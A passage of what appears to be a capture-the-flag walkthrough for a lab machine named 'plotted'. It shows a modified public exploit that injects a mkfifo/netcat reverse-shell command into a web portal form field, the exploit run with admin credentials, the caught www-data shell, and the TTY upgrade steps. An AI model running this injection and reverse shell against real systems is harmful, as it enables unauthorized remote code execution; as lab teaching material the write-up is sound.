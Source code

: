 ```bash
    # Linux only, but can be easily modified for Windows.
    _cmd = "|| echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc /xx.xxx.xx.xxx 1234 >/tmp/f' |bash"  
    p.update({"form_284": _cmd})
```

<h2>Exploit</h2>

```bash
:~# python3 45161.py http://xx.xxx.xx.xxx:8890/portal -u 'admin' -p '************'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with admin:Password123!
[$] Injecting payload
```

<h2>www-data</h2>

```bash
:~# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on xx.xxx.xx.xxx 46430
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/html/portal/interface/main
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@plotted:/var/www/html/portal/interface/main$ ^Z
[1]+  Stopped                 nc -nlvp 1234
:~# stty raw -echo; fg
nc -nlvp 1234

```bash
www-data@plotted:/var/www/html/portal/interface/main$ export TERM=xterm
www-data@plotted:/var/www/html/portal/interface/main$ 
```

```bash
www-data@plotted:/var/www$ ls -lah
total 16K
drwxr-xr-x  3 root     root     4.0K Oct 17  2021 .
drwxr-xr-x 15 root     root     4.0K Oct 17  2021 ..
-rw-r--r--  1 www-data www-data   27 Oct 17  2021 ThisFileIsInteresting
drwxr-xr-x  4 root     root     4.0K Oct 17  2021 html
```

